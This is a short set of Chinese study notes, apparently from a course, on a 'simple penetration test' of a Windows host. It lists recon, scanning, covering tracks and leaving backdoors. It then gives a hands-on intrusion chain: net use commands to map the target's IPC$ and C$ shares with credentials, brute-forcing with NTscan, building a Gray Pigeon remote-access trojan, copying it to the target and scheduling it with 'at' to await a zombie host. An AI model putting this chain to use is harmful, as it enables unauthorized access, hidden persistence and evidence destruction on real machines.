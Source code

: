 # 简单渗透测试流程

### 0. 授权

### 1. 信息收集

- nslookup
- whois

### 2. 扫描漏洞

- nmap=ip范围 端口 80（IIS，apache，发布了什么网站）
- scanport
- 高级扫描：如IIS漏洞 win2003-IIS6.0 win2008-IIS7.0 扫描网站漏洞（）

### 3. 漏洞利用

### 4. 提权

- shell环境
- 桌面环境
- 最高权限

### 5. 毁尸灭迹

### 6. 留后门

### 7. 渗透测试报告

手工测试端口号开放：
telnet IP地址 测试端口

1. scanport扫描445端口

2. 漏洞利用之IPC$：

   ```bash
   net use  \\10.1.1.2\ipc$ 密码 /user:用户   #远程访问10.1.1.2上的ipc$
   net use f: \\10.1.1.2\share 密码 /user:用户 #将远程地址10.1.1.2上的share文件夹作为我的f盘
   net use f: /del #删除上一条命令中的f盘
   net use * /del #删除所有远程映射
   net use #查看所有远程映射
   ```

3. 进行暴力破解：NTscan

net use f: \\10.1.1.2\c$ 密码 /user:用户
==========================================

4.制作木马
利用光盘上的灰鸽子软件

5.植入木马（留后门）
copy d:\heihei.exe \\10.1.1.2\c$

6.设置计划任务自动执行木马：
net time \\10.1.1.2
at \\10.1.1.2 11:11 "c:\heihei.exe"

7.等待肉鸡上线